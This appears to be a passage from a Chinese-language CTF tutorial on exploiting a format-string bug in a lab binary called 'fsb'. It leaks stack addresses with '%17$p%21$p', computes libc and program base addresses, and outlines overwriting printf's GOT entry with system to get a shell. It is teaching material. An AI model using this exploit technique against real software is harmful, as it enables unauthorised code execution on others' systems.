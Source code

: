 
Pwndbg 中的视图：

![image-20230508170214582](images/image-20230508170214582.png)

`0x7fffffffde08` 在第7个参数的位置， `__libc_start_main+240` 在第 21 个参数的位置，根据这个地址，可以计算出 libc 的基地址：

```
libc_base = addr - libc.symbols['__libc_start_main']-0xf0
info("libc:0x%x", libc_base)
```

同理，`_start` 在第 17 个参数的位置，根据这个地址，可以计算出 fsb 程序的基地址：

```
base = addr - elf.symbols['_start']
info("base:0x%x", base)
```

进行以上基地址计算前，首先需要将第 17 个、第 21 个参数位置的信息进行泄露：

```
$ ./fsb
input your name:
%17$p%21$p
hello 0x561e388897c00x7feb3e68a840
```

有了 libc 基地址之后，就可以计算 system 函数的地址，然后将 GOT 表中 printf 函数的地址修改为 system 函数的地址。下一次执行 printf(format)时，实际会执行 system(format)，输入的format为 `/bin/bash` 即可获得 shell。
